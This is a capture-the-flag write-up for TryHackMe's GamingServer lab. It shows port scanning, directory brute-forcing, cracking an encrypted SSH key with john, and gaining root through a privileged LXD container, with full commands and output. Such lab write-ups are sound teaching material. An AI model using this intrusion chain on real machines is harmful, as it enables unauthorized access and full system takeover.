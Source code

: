 # GamingServerWriteup

Try Hack Me Writeup — GamingServer
[Link to try hack me of GamingServer room](https://tryhackme.com/room/gamingserver) 

Hello Guys , I am Vishal Kumar. My username on THM is “vishack56”.

## STEP 1:

Port Scan: Running NMAP full port scan on it , we get

~~~bash
root@vish:~/TryHackMe# nmap -sC -sV -p- -T4 10.10.246.20
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 16:33 IST
Nmap scan report for 10.10.246.20
Host is up (0.20s latency).
Not shown: 65531 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
29926/tcp filtered unknown
50976/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1044.51 seconds
~~~ 


Visiting the 80 port on browser we see a "House of Danak" page. There is something interesting in its source code which is :
"john, please add some actual content to the site! lorem ipsum is horrible to look at."

### john must be the username.


## STEP 2:

Running gobuster:
~~~ 
gobuster dir -u http://10.10.246.20/ --wordlist /home/security/SecLists/Discovery/Web-Content/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/[[hidden-text]] (Status: 200)
/[[hidden-text]] (Status: 301)
/[[hidden-text]] (Status: 403)
/[[hidden-text]] (Status: 301)

~~~ 
 
![screenshot](images/Screenshot1.png) 
 
## STEP 3:
 
 Visiting the hidden directoory, we get dict.lst file which I assume is some sort of wordlist.
 
![screenshot](images/Screenshot2.png) 
 
 and another hidden directory contains encrypted SSH key:
 
![screenshot](images/Screenshot3.png) 


## STEP 4:
 
 Since the RSA key is encrypted we’ll use ssh2john and john to crack the hash. I saved the hash as id_rsa.

~~~bash 
root@vish:~/TryHackMe/GamingServer# nano id_rsa
root@vish:~/TryHackMe/GamingServer# /usr/share/john/ssh2john.py id_rsa > id_rsa_hash
root@vish:~/TryHackMe/GamingServer# john --wordlist=dict.lst id_rsa_hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
[[hidden-password]]          (id_rsa)
1g 0:00:00:00 DONE (2020-08-31 17:04) 4.000g/s 888.0p/s 888.0c/s 888.0C/s 2003..starwars
Session completed

~~~ 

![screenshot](images/Screenshot4.png) 

## STEP 5:

SSH Login :

~~~bash

root@vish:~/TryHackMe/GamingServer# chmod 600 id_rsa
root@vish:~/TryHackMe/GamingServer# ssh -i id_rsa john@10.10.246.20
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.246.20 (10.10.246.20)' can't be established.
ECDSA key fingerprint is SHA256:LO5bYqjXqLnB39jxUzFMiOaZ1YnyFGGXUmf1edL6R9o.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.246.20' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 31 11:49:55 UTC 2020

  System load:  0.0               Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.246.20
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10

john@exploitable:~$ cat user.txt
[[hidden-user-flag]]
~~~ 

  
![screenshot](images/Screenshot5.png)


## STEP 6:

Privilege Escalation

~~~bash
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
~~~ 

![screenshot](images/Screenshot6.png)

LXD seems interesting, after enumerating this I got a technique to escalate provilege from https://www.hackingarticles.in/lxd-privilege-escalation/

Following the steps of this article and the machine is rooted.

In Local machine:
First Download the "build alpine" from : https://github.com/saghul/lxd-alpine-builder.git
Go to the lxd-alpine-builder directory and run "build-alpine" by ./build-alpine
On running the above command, a tar.gz file is created.
Transfer that file in the host machine into /tmp

and run the following commands one by one:

- lxc image import ./alpine-v3.12-x86_64-20200831_1326.tar.gz --alias myimage
- lxc image list
- lxc init myimage ignite -c security.privileged=true
- lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
- lxc start ignite
- lxc exec ignite /bin/sh

john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)

![screenshot](images/Screenshot7.png)

~~~bash
/mnt/root/root # cat root.txt
[[hidden-root-flag]]
/mnt/root/root #
~~~ 
  
### Thanks for reading this.